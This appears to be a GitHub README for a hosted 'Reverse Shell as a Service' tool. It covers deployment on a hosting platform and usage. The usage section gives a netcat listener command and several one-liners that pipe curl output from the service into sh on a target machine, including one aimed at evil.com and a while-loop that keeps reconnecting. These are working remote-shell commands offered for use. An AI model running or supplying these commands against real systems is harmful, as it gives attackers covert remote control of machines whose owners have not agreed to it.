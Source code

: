 # reverse-shell

> Reverse Shell as a Service - http://reverse.us.openode.io/ modified from https://github.com/lukechilds/reverse-shell and host it in https://www.openode.io/


## Deploy

* Generate Template
```shell
$ openode template
```

* enable https (optional)
```shell
$ openode set-config SSL_CERTIFICATE_PATH your-cert-folder/certfile.crt
$ openode set-config SSL_CERTIFICATE_KEY_PATH your-cert-folder/keyfile.key
```

* deploy
```shell
$ penode deploy
```

* add custom domain(actually not working)
```shell
openode add-alias youdomain.com
```

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -l 1337
```
### 2. Execute reverse shell on target

```shell
curl http://reverse.us.openode.io/192.168.0.69:1337 | sh
```
```shell
curl http://reverse.us.openode.io/localhost:1337 | sh
```
```shell
curl http://reverse.us.openode.io/evil.com:1337 | sh
```

### Reconnecting

By default when the shell exits you lose your connection. You may do this by accident with an invalid command. You can easily create a shell that will attempt to reconnect by wrapping it in a while loop.

```shell
while true; do curl http://reverse.us.openode.io/yourip:1337 | sh; done
```

## License

MIT © Luke Childs
